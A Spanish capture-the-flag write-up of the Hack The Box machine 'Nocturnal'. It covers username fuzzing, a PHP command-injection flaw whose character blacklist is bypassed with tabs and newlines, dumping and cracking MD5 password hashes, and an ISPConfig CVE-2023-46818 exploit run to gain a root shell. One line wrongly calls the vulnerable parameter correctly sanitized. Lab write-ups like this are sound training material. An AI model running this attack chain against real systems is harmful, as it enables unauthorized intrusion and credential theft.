


# Nocturnal

# Escaneo

```bash
nmap -p 80,22 -sV -sC -vvv 10.10.11.64
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-18 08:58 -03
Illegal character(s) in hostname -- replacing with '*'
Illegal character(s) in hostname -- replacing with '*'
Nmap scan report for http:**nocturnal.htb (10.10.11.64)
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 20:26:88:70:08:51:ee:de:3a:a6:20:41:87:96:25:17 (RSA)
|   256 4f:80:05:33:a6:d4:22:64:e9:ed:14:e3:12:bc:96:f1 (ECDSA)
|_  256 d9:88:1f:68:43:8e:d4:2a:52:fc:f0:66:d4:b9:ee:6b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://nocturnal.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.87 seconds
```

# Intrusión



pepitopistolero@123123


En este punto, podria realizar fuzzing sobre el parametro `username` para enumerar usuarios validos

```bash
┌──(karipela㉿Tomas)-[~/ctf/hack_the_box/Nocturnal]
└─$ ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -u 'http://nocturnal.htb/view.php?username=FUZZ&file=prueba.pdf' -H 'Cookie: PHPSESSID=mjbvq5a6bph41uqtv8aqsl1b5s' -fs 2985

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://nocturnal.htb/view.php?username=FUZZ&file=prueba.pdf
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Usernames/Names/names.txt
 :: Header           : Cookie: PHPSESSID=mjbvq5a6bph41uqtv8aqsl1b5s
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 2985
________________________________________________

admin                   [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 176ms]
amanda                  [Status: 200, Size: 3113, Words: 1175, Lines: 129, Duration: 177ms]
ignacio                 [Status: 200, Size: 35, Words: 5, Lines: 4, Duration: 175ms]
tobias                  [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 179ms]
:: Progress: [10177/10177] :: Job [1/1] :: 225 req/sec :: Duration: [0:00:48] :: Errors: 0 ::
```

Para el usuario `amanda` :


```bash
Dear Amanda,
Nocturnal has set the following temporary password for you: arHkG7HAI68X8s1J. This password has been set for all our services, so it is essential that you change it on your first login to ensure the security of your account and our infrastructure.
The file has been created and provided by Nocturnal's IT team. If you have any questions or need additional assistance during the password change process, please do not hesitate to contact us.
Remember that maintaining the security of your credentials is paramount to protecting your information and that of the company. We appreciate your prompt attention to this matter.

Yours sincerely,
Nocturnal's IT team

```

Entramos como amanda y tengo:


Dentro del panel de admin:


Dentro de `admin.php`, podemos ver como se interpreta el hecho de realizar un backup con contraseña

```php
if (isset($_POST['backup']) && !empty($_POST['password'])) {
    $password = cleanEntry($_POST['password']);
    $backupFile = "backups/backup_" . date('Y-m-d') . ".zip";

    if ($password === false) {
        echo "<div class='error-message'>Error: Try another password.</div>";
    } else {
        $logFile = '/tmp/backup_' . uniqid() . '.log';
       
        $command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";
   <SNIP>...</SNIP>
   
   function cleanEntry($entry) {
    $blacklist_chars = [';', '&', '|', '$', ' ', '`', '{', '}', '&&'];

    foreach ($blacklist_chars as $char) {
        if (strpos($entry, $char) !== false) {
            return false; // Malicious input detected
        }
    }
    return htmlspecialchars($entry, ENT_QUOTES, 'UTF-8');
}
```

Como se puede observer, para crear un backup con una contraseña, se realiza la instruccion 

```php
$command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";
```

Lo que nos interesa en este caso es la variable `$password` ya que esta dentro de la representacion de un comando de sistema para crear el backup:

- `zip`: comando que genera un archivo .zip.
- `x './backups/*'`: excluye la carpeta de backups para no crear bucles infinitos.
- `r`: recursivo (incluye todos los archivos y subdirectorios).
- `P`: agrega la contraseña al zip.
- `$backupFile`: nombre del archivo destino.
- `.`: indica que se hará el backup desde el directorio actual.
- `> $logFile 2>&1 &`: redirige toda la salida (stdout y stderr) al archivo de log y ejecuta el proceso en segundo plano (`&`).

Sin embargo, este campo viene protegido con algunos caracteres gracias a:

```php
$blacklist_chars = [';', '&', '|', '$', ' ', '`', '{', '}', '&&'];
```

Pero se podria bypasear usando caracteres especiales como `\t` (tabulador) y `\n` (salto de linea). Resumiendo, se pdoria armar la siguiente carga util:


Como vemos, ya tenemos un `RCE` y, ademas, podemos acceder al directorio `/upload` . Entonces podriamos cargar un archivo .pdf pero que en realidad tenga comandos de bash y ver si se puede ejecutar:



Nos ponemos a la escucha por el puerto 3131 y ya tenemos una shell en el servidor:


# Movimiento lateral

Tenemos el usuario `tobias` dentro de la maquina: 


Pero no tenemos acceso a el. Sin embargo, si vamos un poco para atras, teniamos acceso a la base de datos:

```bash
www-data@nocturnal:~/nocturnal_database$ ls
nocturnal_database.db
www-data@nocturnal:~/nocturnal_database$ sqlite3 nocturnal_database.db
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .tables
uploads  users
sqlite> select * from users;
1|admin|d725aeba143f575736b07e045d8ceebb
2|amanda|df8b20aa0c935023f99ea58358fb63c4
4|tobias|55c82b1ccd55ab219b3b109b07d5061d
6|kavi|f38cde1654b39fea2bd4f72f1ae4cdda
7|e0Al5|101ad4543a96a7fd84908fd0d802e7db
8|attempt|482c811da5d5b4bc6d497ffa98491e38
9|test|098f6bcd4621d373cade4e832627b4f6
10|attacker_z0g2jv|2c103f2c4ed1e59c0b4e2e01821770fa
11|ignacio|a1ddcc1fb01c83b61be6cdc2eac658c1
12|nolog1n|ec878b54e20a467b7f1c8e46f14d21c4
13|pepitopistolero|4297f44b13955235245b2497399d7a93
14|anonym|a684dd572b1887661782981659331eed
sqlite>
```

Como se puede observar, podemos ver las contraseñas hasheadas de todos los usuarios, incluido el nuestro. En este punto podriamos tratar de romper la contraseña del usuario `tobias` con la herramienta `hashcat` 

```bash
┌──(karipela㉿Tomas)-[~/ctf/hack_the_box/Nocturnal]
└─$ echo '55c82b1ccd55ab219b3b109b07d5061d' > hash
┌──(karipela㉿Tomas)-[~/ctf/hack_the_box/Nocturnal]
└─$ sudo hashcat -m 0 hash /usr/share/wordlists/rockyou.txt
[sudo] password for karipela:
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #1: cpu-skylake-avx512-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2851/5766 MB (1024 MB allocatable), 8MCU

55c82b1ccd55ab219b3b109b07d5061d:slowmotionapocalypse

```

Tenemos la contraseña, asiq podemos loguearnos como el usuario `tobias`


# Escalada de privilegios

Al realizar una enumeración sobre lo que esta corriendo el usuario `tobias` vemos que el puerto 8080 esta abierto para su [localhost](http://localhost) (127.0.0.1):


Podemos reenviar este puerto (port forwarding) a nuestra maquina para ver que es lo que hay:

```bash
ssh -L 8080:127.0.0.1:8080 -N -vv tobias@nocturnal.htb
```

Tenemos el siguiente servicio:


Como tobias es el que esta corriendo esto, podemos probar las credenciales: admin@slowmotionapocalypse → contraseña de tobias


Efectivamente, ya tenemos acceso al panel administrador. Si vamos al apartado de `Help` vemos que esta corriendo `ISPConfig Version: 3.2.10p1` . Una busqueda en google nos indica la vulnerabilidad **`CVE-2023-46818`** que aprovecha el parámetro POST de registros de ISPConfig en /admin/language_edit.php, ya que está correctamente sanitizado. Esto permite que un administrador autenticado inyecte y ejecute código PHP arbitrario. A continuacion el PoC:

[https://github.com/ajdumanhug/CVE-2023-46818/blob/main/CVE-2023-46818.py](https://github.com/ajdumanhug/CVE-2023-46818/blob/main/CVE-2023-46818.py)

De esta manera, podemos hacer:

```bash
┌──(tomi㉿DESKTOP-9AEHMMU)-[~/ctf/hackTheBox/nocturnal]
└─$ python CVE-2023-46818.py http://127.0.0.1:8080 admin slowmotionapocalypse
[+] Logging in with username 'admin' and password 'slowmotionapocalypse'
[+] Login successful!
[+] Fetching CSRF tokens...
[+] CSRF ID: language_edit_20be2dce883754014ed691d2
[+] CSRF Key: 9b653d3a56e03df97ffb178a33098433eee771ba
[+] Injecting shell payload...
[+] Shell written to: http://127.0.0.1:8080/admin/sh.php
[+] Launching shell...

ispconfig-shell# whoami
root

ispconfig-shell# cat /root/root.txt
b6fe9f4258a63769742057dda6fc4f8d

ispconfig-shell#
```
